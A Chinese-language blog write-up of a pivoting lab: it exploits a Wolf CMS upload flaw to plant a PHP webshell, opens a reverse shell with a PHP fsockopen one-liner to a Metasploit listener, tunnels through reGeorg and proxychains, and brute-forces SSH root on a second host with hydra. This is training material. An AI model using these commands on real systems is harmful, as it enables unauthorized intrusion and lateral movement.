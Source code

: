 # 0x01 前言

最近在看 Cobalt Strike 4.0 手册的时候，一直遇到 `Pivot` 这个词，我也不知道怎么翻译比较好，意思就是把一台受害机器作为支点，以此机器为基础横向？大概是这样吧，刚好翻看今天的 RSS 订阅时看到 `Pivoting` 技术的一个靶机环境，记录下操作。


# 0x02 对目标 A 的操作

**Step 1：扫描目标 A**

```
nmap -sV -script=banner 192.230.141.3
```

![title](https://leanote.com/api/file/getImage?fileId=5e2d18cdab64414de100532d)

看到目标 A 开放了 web 服务。是 Wolf CMS。

![title](https://leanote.com/api/file/getImage?fileId=5e2d1c1aab64414de10053b7)

通过查询 `EXPLOIT DATABASE` 发现 Wolf CMS 存在任意文件上传漏洞：

![title](https://leanote.com/api/file/getImage?fileId=5e2d3c5eab64414de100597a)

上传一个 php 的小马，仅有命令执行和文件上传功能：

![title](https://leanote.com/api/file/getImage?fileId=5e2d3d52ab64414de10059a7)

通过访问路径 `192.230.141.3/public/php-backdoor.php` 查看此小马：

![title](https://leanote.com/api/file/getImage?fileId=5e2d3f7dab64414de1005a04)

**Step 2：开启 PHP 反弹 shell 监听器**

```
# msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD php/reverse_php
msf5 exploit(multi/handler) > ip addr
# 得到攻击机的本机IP为 192.230.141.2
msf5 exploit(multi/handler) > set LHOST 192.230.141.2
msf5 exploit(multi/handler) > exploit
```

然后就在攻击机器的随意端口通过 msf 开启了反弹 shell 的监听，此处为 4444 端口：

![title](https://leanote.com/api/file/getImage?fileId=5e2d4488ab64414be2005aa4)

在小马上通过此命令弹一个 `/bin/sh` 终端给攻击机器的反弹 shell 监听端口：

![title](https://leanote.com/api/file/getImage?fileId=5e2d45ebab64414be2005adf)

```
php -r '$sock=fsockopen("192.230.141.2",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![title](https://leanote.com/api/file/getImage?fileId=5e2d46b7ab64414be2005afd)

通过小马的命令执行功能执行此 PHP webshell payload，然后得到一个反弹 shell：

![title](https://leanote.com/api/file/getImage?fileId=5e2d47aaab64414de1005b68)

后面找 flag 的具体步骤就不多说了，通过 `find / -name flag* 2>/dev/null` 命令一下就找到了 flag.txt，不过这不是我关心的重点所以就省略了。

# 0x03 对目标 B 的操作

Step 1：上传 reGeorg 的隧道模块

![title](https://leanote.com/api/file/getImage?fileId=5e2d4a4fab64414be2005b9e)

通过 Wolf CMS 的任意文件上传漏洞上传 `tunnel.php` 文件：

![title](https://leanote.com/api/file/getImage?fileId=5e2d4acaab64414de1005bf5)

通过网站 web 路径访问：

![title](https://leanote.com/api/file/getImage?fileId=5e2d4b0bab64414de1005c04)

**Step 2：连接到 reGerog 隧道模块**

![title](https://leanote.com/api/file/getImage?fileId=5e2d4bb3ab64414be2005bd8)

这样就在攻击机器的 9050 端口开启了 socks 服务器。代理运行在本地 9050 端口：

![title](https://leanote.com/api/file/getImage?fileId=5e2d4cd5ab64414be2005c0b)

新开一个终端，编辑 `proxychains` 配置文件：

```
vim /etc/proxychains.conf
```

![title](https://leanote.com/api/file/getImage?fileId=5e2d4e7fab64414be2005c4b)

然后通过 `proxychains` 命令前缀在代理下执行命令。


**Step 3：扫描目标 B 机器**

在弹回 msf 的反弹 shell 中执行 `ifconfig` 命令，得到机器 A 的 IP 为 `192.58.203.2`：

![title](https://leanote.com/api/file/getImage?fileId=5e2d4fdbab64414be2005c8e)

现在我们想往 IP 为 `192.58.203.3` 的机器 B 上尝试横向。

使用通过 reGeorg 搭的隧道的代理来执行 nmap 扫描目标 B：

![title](https://leanote.com/api/file/getImage?fileId=5e2d51a1ab64414de1005d34)

扫了常见的 1000 端口，发现有且仅有 22 端口的 ssh 服务开放：

![title](https://leanote.com/api/file/getImage?fileId=5e2d51feab64414be2005cef)

**Step 4：爆破目标 B 机器的 root 密码**

![title](https://leanote.com/api/file/getImage?fileId=5e2d5513ab64414be2005d85)
![title](https://leanote.com/api/file/getImage?fileId=5e2d53f6ab64414de1005d9b)

在代理下使用 `hydra` 进行爆破，相当于在内网中进行爆破。爆破出 SSH root 用户的密码为弱口令 `1234567890`。

**Step 5：使用 SSH 登入目标 B 机器**



![title](https://leanote.com/api/file/getImage?fileId=5e2d5737ab64414de1005e26)

注意黄框内的，如果不使用 `proxychains` 工具进行内网代理，不走隧道是无法登进去的。

至此就获得了第二个机器目标 B 的 root 权限，后面依然是使用 `find / -name flag* 2>/dev/null` 命令寻找 flag，flag.txt 文件就在 root 目录下，就不再赘述。


# 0x04 总结

这篇文章就是 `Network Pivoting` 技术的一个实例。以机器 A 为支点入侵机器 B。

我最近看 Cobalt Strike 手册，看到 `Browser Pivoting` 这个技术不是很懂，所以就对 `Pivoting` 这个词比较感兴趣。

其实查阅此手册，发现在第9章有对 `Pivoting` 技术的详细解释：

![title](https://leanote.com/api/file/getImage?fileId=5e2d58dbab64414be2005e2c)


什么是 `Pivoting` 呢？

就是说将一个受害机器变为为其他攻击和工具服务的跳板。

Cobalt Strike 的 Beacon 提供了多种 `pivoting` 选项。前提是 Beacon 处于交互模式（通过 `sleep 0` 命令即可在 Beacon 控制台中设置）。

比如 <u>选项1：SOCKS代理</u>，具体步骤为：

1. 先启动 SOCKS4a 服务器。
2. 然后使用 proxychains 工具强制外部程序使用设置的 SOCKS 代理服务器。

和本文的思路完全一致。只不过在本文中我们是通过 `reGeorge` 工具，而在 CS 中提供了以 CS 的团队服务器作为 SOCKS4a 代理服务器的功能。毕竟，CS 的理念是以团队服务器作为攻击机器。

这里 proxychains 工具也可以换为 Metasploit 框架来替代实现其功能。

其他的 `pivoting` 选项包括反向端口转发等。

因为 Cobalt Strike 手册我还没有看到这部分，等我看到这部分再写文章详细整理。

-----------


## 参考资料：

1. [A tiny PHP/bash reverse shell](https://gist.github.com/podjackel/4d2c6938289f3a2366ccc8cea447350d)，Github

